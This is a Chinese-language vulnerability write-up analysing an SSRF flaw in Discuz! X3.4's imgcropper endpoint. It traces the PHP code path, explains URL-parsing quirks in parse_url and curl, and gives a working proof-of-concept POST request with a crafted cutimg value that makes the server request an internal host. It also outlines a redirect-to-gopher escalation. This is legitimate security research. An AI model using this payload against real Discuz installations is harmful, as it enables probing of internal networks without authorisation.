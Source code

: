 # Discuz x3.4 imgcropper ssrf

> 原文：[https://www.zhihuifly.com/t/topic/2875](https://www.zhihuifly.com/t/topic/2875)

# Discuz! X3.4 imgcropper ssrf

## 一、漏洞简介

对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求，总的来说比较鸡肋

## 二、漏洞影响

## 三、复现过程

`source/class/class_image.php` `image`类`init`方法：

```
 function init($method, $source, $target, $nosuffix = 0) {
        global $_G;

```
 $this-&gt;errorcode = 0;
    if(empty($source)) {
        return -2;
    }
    $parse = parse_url($source);
    if(isset($parse['host'])) {
        if(empty($target)) {
            return -2;
        }
        $data = dfsockopen($source);
        $this-&gt;tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');
        if(!$data || $source === FALSE) {
            return -2;
        }
        file_put_contents($source, $data);
    }
    ...... 
``` `}` 
```

再找哪些地方调用了`image`类的`init`方法，发现`image`类的`Thumb`、`Cropper`、`Watermark`方法都调用了`init`。比如`Thumb`：

```
 function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {
        $return = $this->init('thumb', $source, $target, $nosuffix);
        ......
    } 
```

所以再找哪些地方调用了`image`类的`Thumb`方法，最终发现：

`source/module/misc/misc_imgcropper.php` 52-57行：

```
 require_once libfile('class/image');
    $image = new image();
    $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];
    if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {
        showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));
    } 
```

下断点调试发现 `$_G['setting']['ftp']['attachurl']` 的值为 `/`，而 `$_G['setting']['attachurl']` 的值是 `data/attachment/`。所以似乎 `$prefix` 为 `/` 才有 SSRF 利用的可能。

一开始构造 `cutimg=/10.0.1.1/get`，这样 `$url` 的值就为 `//10.0.1.1/get`，按道理来说这应该算是一个正常的 url，但是结果却请求失败了。

仔细跟进 `_dfsockopen` 发现，在 PHP 环境安装有 cURL 时，进入 curl 处理的代码分支，直到这里：

```
curl_setopt($ch, CURLOPT_URL, $scheme.'://'.($ip ? $ip : $host).($port ? ':'.$port : '').$path); 
```

`$scheme`、`$host`、`$port`、`$path` 都是 `parse_url` 解析 url 参数后的对应的值，而对像 `//10.0.1.1/get` 这样的 url 解析时，`$scheme` 的值是 `null`，因此最后拼接的结果是 `://10.0.1.1/get`，没有协议，curl 最后对这种url的请求会自动在前面加上 `HTTP://`，结果就变成了请求 `HTTP://://10.0.1.1/get`，这种 url 在我的环境中会导致 curl 报错。

所以我去掉了 curl 扩展，让 `_dfsockopen` 函数代码走 socket 发包的流程，踩了 `parse_url` 和 Dz 代码的一些坑点（这里就不展开了，有兴趣的同学调下代码就知道了），最后发现像这样构造可以成功：

```
cutimg=/:@localhost:9090/dz-imgcropper-ssrf 
```

poc:

```
POST /misc.php?mod=imgcropper&picflag=2&cutimg=/:@localhost:9090/dz-imgcropper-ssrf HTTP/1.1
Host: ubuntu-trusty.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: xkmD_2132_sid=E5sbVr; xkmD_2132_saltkey=m6Y8022s; xkmD_2132_lastvisit=1521612483; xkmD_2132_lastact=1521624907%09misc.php%09imgcropper; xkmD_2132_home_readfeed=1521616105; xkmD_2132_seccode=1.ecda87c571707d3f92; xkmD_2132_ulastactivity=a0f4A9CWpermv2t0GGOrf8%2BzCf6dZyAoQ3Sto7ORINqJeK4g3xcX; xkmD_2132_auth=40a4BIESn2PZVmGftNQ2%2BD1ImxpYr0HXke37YiChA2ruG6OryhLe0bUg53XKlioysCePIZGEO1jmlB1L4qbo; XG8F_2132_sid=fKyQMr; XG8F_2132_saltkey=U7lxxLwx; XG8F_2132_lastvisit=1521683793; XG8F_2132_lastact=1521699709%09index.php%09; XG8F_2132_ulastactivity=200fir8BflS1t8ODAa3R7YNsZTQ1k262ysLbc9wdHRzbPnMZ%2BOv7; XG8F_2132_auth=3711UP00sKWDx2Vo1DtO17C%2FvDfrelGOrwhtDmwu5vBjiXSHuPaFVJ%2FC%2BQi1mw4v4pJ66jx6otRFKfU03cBy; XG8F_2132_lip=172.16.99.1%2C1521688203; XG8F_2132_nofavfid=1; XG8F_2132_onlineusernum=3; XG8F_2132_sendmail=1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36 `imgcroppersubmit=1&formhash=f8472648` 
```

此时 url 即为`//:@localhost:9090/dz-imgcropper-ssrf`。SSRF 请求成功：

![image](img/7f5ad6a8ac44f19c7f64987c0f0c42f5.png)

通过这种方式进行构造利用的话，不太需要额外的限制条件（只要求服务端 PHP 环境没有安装 curl 扩展）￼，但是只能发 HTTP GET 请求，并且服务端不跟随跳转。漏洞危害有限。

后来 l3m0n 师傅也独立发现了这个漏洞，并且他发现较高版本的 curl 是可以成功请求 `HTTP://:/` 的，较高版本的 curl 会将这种 url 地址解析到 127.0.0.1 的 80 端口：

![image](img/4925ce6fc80c478331a4ce07cb93dac2.png)

最后他再利用之前 PHP `parse_url` 的解析 bug（ [https://bugs.php.net/bug.php?id=73192](https://link.zhihu.com/?target=https%3A//bugs.php.net/bug.php%3Fid%3D73192) ），及利用 `parse_url` 和 curl 对 url 的解析差异，成功进行 302 跳转到任意恶意地址，最后再 302 跳转到 gopher 就做到发送任意数据包。详情可以参考 l3m0n 的博客：

[Discuz x3.4前台SSRF - l3m0n - 博客园](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/iamstudy/articles/discuz_x34_ssrf_1.html)

但是这种利用方式对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求。总的来说，imgcropper SSRF 仍然比较鸡肋。